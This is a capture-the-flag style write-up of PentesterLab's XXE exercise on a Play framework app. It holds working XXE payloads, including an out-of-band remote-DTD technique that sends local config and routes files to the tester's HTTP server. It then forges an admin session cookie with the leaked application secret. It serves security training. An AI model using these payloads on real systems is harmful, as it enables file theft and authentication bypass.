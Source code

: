 #### 2.1. About exercise

URL: `https://pentesterlab.com/exercises/play_xxe`

The goal of the lab exercise is to retrieve the cookie signature key from the app's config, and then generate a valid cookie to authenticate as `admin`.

Also, the challenge requires disclosure of all routes to reach the (secret) URL, which may be a protected/internal resources.

Download the ISO for VMWare:
```
$ wget https://pentesterlab.com/exercises/play_xxe/iso
```

#### 2.2. App routes in Play framework

Documentation:
- `https://www.playframework.com/documentation/1.2/routes`
- Files: 
  - `conf/routes`
  - `conf/application.conf`


#### 2.3. Basic detection

Local sever for entity HTTP request:
```
$ python -m http.server 8888
```

Test 1:
```
$ cat req1.xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
	<!ENTITY call SYSTEM "http://192.168.209.146:8888/XXE">
]>
<test>&call;</test>
$ http POST 192.168.209.136/login @req1.xml Content-Type:text/xml >/dev/null
```
Logs on sever:
```
192.168.209.136 - - [NOLOGS] code 404, message File not found
192.168.209.136 - - [NOLOGS] "GET /XXE HTTP/1.1" 404 -
```

Test 2:
```
$ cat req2.xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://192.168.209.146:8888/XXE">
$ http POST 192.168.209.136/login @req2.xml Content-Type:text/xml >/dev/null
```
Logs on sever:
```
192.168.209.136 - - [NOLOGS] code 404, message File not found
192.168.209.136 - - [NOLOGS] "GET /XXE HTTP/1.1" 404 -
```

Test 3:
```
$ cat req3.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///opt">]>
<foo>&xxe;</foo>
$ http POST 192.168.209.136/login @req3.xml Content-Type:text/xml -v
```
Note: no errors while reading `/` (dir listing)

Test 4:
```
$ cat req4.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///lol">]>
<foo>&xxe;</foo>
$ http POST 192.168.209.136/login @req4.xml Content-Type:text/xml
```
Note: `/lol` should not exist; response is `For request 'POST /login' [Invalid XML]`


#### 2.4. Listing root directory via XXE

Remote DTD file to be served:
```
$ cat /tmp/dtd
<!ENTITY % f SYSTEM "file:///">
<!ENTITY % all "<!ENTITY trigger SYSTEM 'http://192.168.209.146:8888/?%f;'>">
%all;
```

Run with remote DTD:
```
$ cat req5.xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://192.168.209.146:8888/dtd">
<x>&trigger;</x>
$ http POST 192.168.209.136/login @req5.xml Content-Type:text/xml >/dev/null
```

Logs on sever:
```
192.168.209.136 - - [NOLOGS] "GET /dtd HTTP/1.1" 200 -
192.168.209.136 - - [NOLOGS] "GET /?bin%0Aboot%0Adev%0Aetc%0Ahome%0Ainit%0Alib%0Alinuxrc%0Amnt%0Aopt%0Aproc%0Aroot%0Arun%0Asbin%0Asys%0Atmp%0Ausr%0Avar%0A HTTP/1.1" 200 -
```

#### 2.5. Reading the sensitive data

a) DTD file for reading the `application.conf` file:
```
<!ENTITY % f SYSTEM "file:///opt/play-2.1.3/xxe/conf/application.conf">
<!ENTITY % all "<!ENTITY trigger SYSTEM 'http://192.168.209.146:8888/?%f;'>">
%all;
```

b) DTD file for reading the `routes` file:
```
<!ENTITY % f SYSTEM "file:///opt/play-2.1.3/xxe/conf/routes">
<!ENTITY % all "<!ENTITY trigger SYSTEM 'http://192.168.209.146:8888/?%f;'>">
%all;
```


#### 2.4 HTTP logs

a) Contents of `/opt/play-2.1.3/xxe/conf/application.conf` (URL decoded and formatted):
```
192.168.209.136 - - [NOLOGS] "GET /dtd HTTP/1.1" 200 -
192.168.209.136 - - [0NOLOGS] "GET /?
application.secret="X7G@Abg53=2p=][5F;uMNDm/QrDtVG0^iYHC3]Ov0t0E6b_amL16UynUbqS_?_eG"
application.langs="en"
db.default.driver=com.mysql.jdbc.Driver
db.default.url="mysql://pentesterlab:pentesterlab@localhost/xxe"
ebean.default="models.*"
logger.root=ERROR
logger.play=INFO
logger.application=DEBUG
HTTP/1.1" 200 -
```

b) Contents of `/opt/play-2.1.3/xxe/conf/routes` (URL decoded and formatted):
```
192.168.209.136 - - [NOLOGS] "GET /dtd HTTP/1.1" 200 -
192.168.209.136 - - [NOLOGS] "GET /?
GET     /                           controllers.Application.index()
GET     /0ecf87346b9c0b370f8d63e6e7fed4f0             controllers.Application.secret_url()
GET       /login                   controllers.Application.login
POST      /login                   controllers.Application.login
GET       /logout                  controllers.Application.logout
GET     /assets/*file               controllers.Assets.at(path="/public", file) 
HTTP/1.1" 200 -
```

To reach the secret page:
```
# http http://192.168.209.136/0ecf87346b9c0b370f8d63e6e7fed4f0 -b
```

#### 2.5. Authentication bypass

Generic cookie format:
```
Cookie: PLAY_SESSION="[signature_goes_here]-user=admin"
```

To sign a valid cookie using `application.secret`:
```
# echo -n 'user=admin' | openssl dgst -sha1 -hmac 'X7G@Abg53=2p=][5F;uMNDm/QrDtVG0^iYHC3]Ov0t0E6b_amL16UynUbqS_?_eG'
(stdin)= a5b8363ce748cfbb5d654edc3676d440173b33de
```

Final cookie:
```
Cookie: PLAY_SESSION="a5b8363ce748cfbb5d654edc3676d440173b33de-user=admin"
```

Gaining access as `admin` user:
```
# http http://192.168.209.136/ Cookie:PLAY_SESSION="a5b8363ce748cfbb5d654edc3676d440173b33de-user=admin" -v
```
